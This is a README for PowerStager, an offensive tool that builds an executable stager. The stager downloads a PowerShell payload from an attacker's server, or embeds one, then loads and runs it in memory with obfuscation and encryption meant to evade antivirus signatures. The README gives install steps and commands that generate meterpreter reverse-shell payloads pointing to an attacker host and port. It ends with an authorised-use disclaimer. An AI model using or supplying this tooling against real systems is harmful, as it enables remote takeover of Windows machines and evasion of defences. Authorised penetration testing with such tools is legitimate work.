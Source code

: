 PowerStager: This script creates an executable stager that downloads a selected powershell payload.
===================================================================================================

Contact
-------
* Author: z0noxz
* Source: https://github.com/z0noxz/powerstager
* Email: z0noxz@mail.com

Description
-----------
This script creates an executable stager that downloads a selected powershell payload, loads it into memory and executes it using obfuscated EC methods. The script will also encrypt the stager for dynamic signatures and some additional obfuscation.

This enables the actual payload to be executed indirectly without the victim downloading it, only by executing the stager. The attacker can then for example implement evasion techniques on the web server, hosting the payload, instead of in the stager itself.

Additional methods allows the payload to be embedded into the 'stager' and temporarily stored encrypted on disk for memory injection.

Not only are powershell powerful when managing Windows, it's also powerful when exploiting Windows. This script exploits multiple Windows features such as its inherit trust of powershell, interpretation of shorthand syntaxes, code evaluation and more...

How to use
----------

Install it:

	git clone https://github.com/z0noxz/powerstager
	cd powerstager
	sudo ./setup.py install
	

If error shows like: 
ImportError: No module named 'setuptools'

	sudo apt-get install python3-setuptools
	
	
Generate a meterpreter payload to upload:

	powerstager -t win64 -o out.ps1 -m --lhost 13.37.13.37 --lport 4444 --generate
	powerstager -t win64 -o out.exe -u <url pointing the the uploaded payload>

Generate an embedded meterpreter payload:

	powerstager -t win64 -o out.exe -m --lhost 13.37.13.37 --lport 4444

Generate an embedded custom payload:

	powerstager -t win64 -o out.exe -p input.ps1

## DISCLAIMER:
You shall not misuse this tool to gain unauthorized access. This tool should only be used to expand knowledge, and not for causing malicious or damaging attacks. Performing any attacks without written permission from the owner of the system is illegal.
